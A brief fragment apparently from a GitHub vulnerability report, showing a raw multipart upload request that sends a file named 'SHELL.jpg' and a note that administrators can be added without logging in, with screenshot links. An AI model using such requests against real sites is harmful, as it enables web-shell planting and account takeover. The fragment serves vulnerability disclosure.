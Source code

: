```
-----------------------------308812365014834483211343127358
Content-Disposition: form-data; name="type"

1
-----------------------------308812365014834483211343127358
Content-Disposition: form-data; name="img"; filename="SHELL.jpg"
Content-Type: application/octet-stream

2222
-----------------------------308812365014834483211343127358--
```

Add administrators directly without logging in.
<img width="1259" alt="image" src="https://github.com/user-attachments/assets/75efd4e7-4476-4228-a75e-502c2c16866c">

<img width="1501" alt="image" src="https://github.com/user-attachments/assets/2c1b3dd0-469f-47fc-b461-148248c98ef2">








